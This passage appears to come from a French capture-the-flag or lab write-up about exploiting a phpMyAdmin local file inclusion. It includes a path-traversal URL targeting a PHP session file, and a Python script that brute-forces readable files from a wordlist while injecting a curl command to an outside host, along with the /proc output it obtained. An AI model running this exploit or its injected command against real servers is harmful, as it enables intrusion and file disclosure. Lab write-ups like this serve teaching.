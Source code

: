 ```plain
http://datasafe.votenow.local/index.php?target=db_sql.php%253f/../../../../../../var/lib/php/sessions/sess_bitno6d2hc3k0vp7dr05turs0o5s3c4k
```

Et qui aurait dû fonctionner sauf que ça n'a pas été le cas.  

J'ai modifié l'exploit pour qu'il tente à la place d'inclure des fichiers d'une wordlist et affiche un extrait du contenu si ça fonctionne.  

```python
session_id = cookies.get_dict()['phpMyAdmin']
with open("/opt/hdd/downloads/tools/wordlists/files/LFI-LFISuite-pathtotest.txt") as fd:
    for line in fd:
        logfile = line.strip()
        url3 = url + f"/index.php?target=db_sql.php%253f/../../../../../../../../{logfile}&cmd=curl%20http://192.168.56.1:8000/{logfile}"
        r = requests.get(url3, cookies = cookies)
        soup = BeautifulSoup(r.text, "html.parser")
        data = soup.find("div", id="page_content").get_text(strip=True)
        if not data:
            continue

        print(f"File {logfile} is readable")
        print(data[:20])
        print("")
```

J'avais des outputs de ce type :  

```plain
File /proc/self/cmdline is readable
/usr/sbin/httpd-DFO

File /proc/self/stat is readable
1877 (httpd) R 889 8

File /proc/self/status is readable
Name:   httpd
Umask:  0

File /proc/self/fd/2 is readable
[Sun Dec 26 12:12:01

File /proc/self/fd/6 is readable
192.168.56.1 - - [26

File /proc/self/fd/9 is readable
PMA_token |s:16:"(lX
```

*/proc/self/environ* n'est malheureusement pas accessible mais sur */proc/self/fd/6* on a les logs HTTP avec des entrées de ce type :  

```plain
192.168.56.1 - - [26/Dec/2021:12:52:55 +0000] "GET /index.php HTTP/1.1" 200 11414 "-" "python-requests/2.25.1"
```
